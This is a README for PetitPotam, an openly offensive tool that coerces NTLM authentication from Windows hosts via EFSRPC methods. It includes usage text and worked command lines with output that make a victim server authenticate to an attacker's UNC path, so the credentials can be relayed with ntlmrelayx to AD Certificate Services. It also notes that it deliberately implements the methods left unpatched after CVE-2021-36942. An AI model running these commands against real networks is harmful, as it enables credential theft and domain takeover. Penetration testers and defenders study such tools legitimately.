 # PetitPotam

Coerce NTLM authentication from Windows hosts

## Installtion

```bash
$ pip3 install impacket
```

## Usage


```bash
usage: petitpotam.py [-h] [-debug] [-port [destination port]] [-pipe pipe]
                     [-method method] [-target-ip ip address]
                     [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-dc-ip ip address]
                     target path

PetitPotam - Coerce authentication from Windows hosts

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
  path                  UNC path for authentication

optional arguments:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON

connection:
  -port [destination port]
                        Destination port to connect to MS-RPRN named pipe
  -pipe pipe            Named pipe to use (default: lsarpc)
  -method method        Method used for coercing authentication
  -target-ip ip address
                        IP Address of the target machine. If ommited it will use
                        whatever was specified as target. This is useful when
                        target is the NetBIOS name and you cannot resolve it

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from
                        ccache file (KRB5CCNAME) based on target parameters. If
                        valid credentials cannot be found, it will use the ones
                        specified in the command line
  -dc-ip ip address     IP Address of the domain controller. If omitted it will
                        use the domain part (FQDN) specified in the target
                        parameter
```

### Examples

In these examples, the victim is `172.16.19.100` and the attacker is `172.16.19.1`

The attack can use `impacket-ntlmrelayx` to relay the authentication to interesting
endpoints, for instance Active Directory Certificate Services Web Enrollment.

By default, a random method will be chosen. 

The target may or may not require authentication. These examples were tested on a 
Windows 2022 server, and no authentication was required.

The UNC path must point to the attacker's listener. Note that if the attacker is not
part of the trusted intranet zone, the Windows host will try to authenticate with a 
null session. This can be circumvented by either using a NETBIOS name or ADIDNS record
for the attacker.

#### Random Method

```bash
$ python3 petitpotam.py -debug '172.16.19.100' '\\172.16.19.1\share\foo'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[+] Connecting to 'ncacn_np:172.16.19.100[\\PIPE\\lsarpc]'
[+] Connected to 'ncacn_np:172.16.19.100[\\PIPE\\lsarpc]'
[+] Binding to ('c681d488-d850-11d0-8c52-00c04fd90f7e', '1.0')
[+] Bound to ('c681d488-d850-11d0-8c52-00c04fd90f7e', '1.0')
[*] Choosing random method
[*] Using method: AddUsersToFile
[*] Coercing authentication to: '\\\\172.16.19.1\\share\\foo'
[*] Success!
```

#### Specific Method

```bash
$ python3 petitpotam.py -debug -method AddUsersToFile '172.16.19.100' '\\172.16.19.1\share\foo'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[+] Connecting to 'ncacn_np:172.16.19.100[\\PIPE\\lsarpc]'
[+] Connected to 'ncacn_np:172.16.19.100[\\PIPE\\lsarpc]'
[+] Binding to ('c681d488-d850-11d0-8c52-00c04fd90f7e', '1.0')
[+] Bound to ('c681d488-d850-11d0-8c52-00c04fd90f7e', '1.0')
[*] Using method: AddUsersToFile
[*] Coercing authentication to: '\\\\172.16.19.1\\share\\foo'
[*] Success!
```

## Details

PetitPotam was orignally created / discovered by [topotam](https://github.com/topotam).
This exploit is heavily based on the implementation and research from [topotam](https://github.com/topotam/PetitPotam).

### CVE-2021-36942

Microsoft has released a [patch](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942) for PetitPotam, but only for two of the methods (EfsRpcOpenFileRaw, EfsRpcEncryptFileSrv). For that reason, those methods are *not* implemented in this exploit. 

Instead, the other methods (which were not fully implemented by topotam) have been implemented in this exploit.

## Authors
- [@ollypwn](https://github.com/ollypwn)

## Credits
- [@topotam](https://github.com/topotam)'s [implementation](https://github.com/topotam/PetitPotam)
- [Impacket](https://github.com/SecureAuthCorp/impacket)